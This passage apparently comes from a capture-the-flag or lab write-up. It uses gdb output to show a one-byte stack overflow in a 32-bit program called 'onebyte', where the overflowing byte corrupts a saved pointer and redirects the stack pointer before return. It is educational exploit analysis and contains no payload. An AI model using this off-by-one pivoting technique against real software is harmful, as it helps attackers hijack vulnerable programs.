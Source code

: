 ```
(gdb) run
Starting program: /home/kali/onebyte 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Free junk: 0x565561bd
Your turn: AAAABBBBCCCCDDDDE

Breakpoint 1, 0x5655628b in main ()
(gdb) 
```

Analyze the data in the stack:

```
(gdb) x/1i $pc
=> 0x5655628b <main+93>:	add    esp,0x10
(gdb) x/8wx $ebp-0x18
0xffffd450:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffd460:	0xffffd445	0xf7e1dff4	0x00000000	0xf7c237c5
(gdb) x/wx $ebp-0x8
0xffffd460:	0xffffd445
```

We can see that all 17 bytes were set, with the final byte, 0x45 ("E"), overflowing into the least-significant byte at *EBP*-8.

```
(gdb) continue
Continuing.

Breakpoint 2, 0x56556299 in main ()
(gdb) x/1i $pc
=> 0x56556299 <main+107>:	lea    esp,[ecx-0x4]
(gdb) i r ecx
ecx            0xffffd445          -11195
(gdb) x/x $ecx
0xffffd445:	0x11ffffd4
(gdb) x/x $ecx-0x4
0xffffd441:	0x50000000
```

Here, note that ECX is set with the overflow bit. Also observe that the current instruction will, after execution, set the stack whatever value is at *ECX*-0x4. Let's confirm this now.

```
(gdb) ni

Breakpoint 3, 0x5655629c in main ()
(gdb) x/1i $pc
=> 0x5655629c <main+110>:	ret
(gdb) i r ecx
ecx            0xffffd445          -11195
(gdb) i r esp
esp            0xffffd441          0xffffd441
(gdb) x/x $esp
0xffffd441:	0x50000000
```
